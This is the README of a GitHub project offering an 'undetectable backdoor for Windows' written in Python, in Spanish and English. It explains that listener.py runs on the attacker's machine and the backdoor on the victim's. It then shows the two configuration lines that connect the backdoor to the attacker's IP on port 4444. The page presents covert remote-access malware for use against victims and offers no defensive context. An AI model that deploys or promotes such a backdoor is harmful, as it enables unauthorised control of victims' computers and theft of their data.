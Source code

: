 # backdoor-python

![backdoor2](https://user-images.githubusercontent.com/51070590/84421419-c8e5a400-abd8-11ea-9205-a314a1f154a7.PNG)

[![Github Release Version](https://img.shields.io/badge/version-1.3-green)](https://github.com/MarceloNoguera/backdoor-python)
[![Github Release Version](https://img.shields.io/badge/python-2.7-green.svg)](https://github.com/MarceloNoguera/backdoor-python)
[![RTA loves Open source](https://badges.frapsoft.com/os/v1/open-source.svg?v=103)](https://github.com/MarceloNoguera/backdoor-python)

#### Spanish
<p>Backdoor indetectable para Windows escrito en Python <br>
  
El archivo listener.py se ejecuta en la maquina atacante y en archivo backdoor en 
la maquina victima.

Para que funcione deben modificar el codigo al final de ambos archivos y agregar la
IP de la maquina atacante en ambos.

Remplazen "0.0.0.0" por la IP del atacante <br>

my_listener = Listener("0.0.0.0", 4444)<br>
my_backdoor = Backdoor("0.0.0.0", 4444)

_______________________________________________________________________________________________________
#### Inglish
Undetectable backdoor for Windows written in Python

The file listener.py is executed on the attacking machine and in the backdoor file in 
the victim machine.

In order for it to work you must modify the code at the end of both files and add the
IP of the attacking machine on both.

Replace "0.0.0.0" with the attacker's IP <br>

my_listener = Listener("0.0.0.0", 4444)<br>
my_backdoor = Backdoor("0.0.0.0", 4444)</p>


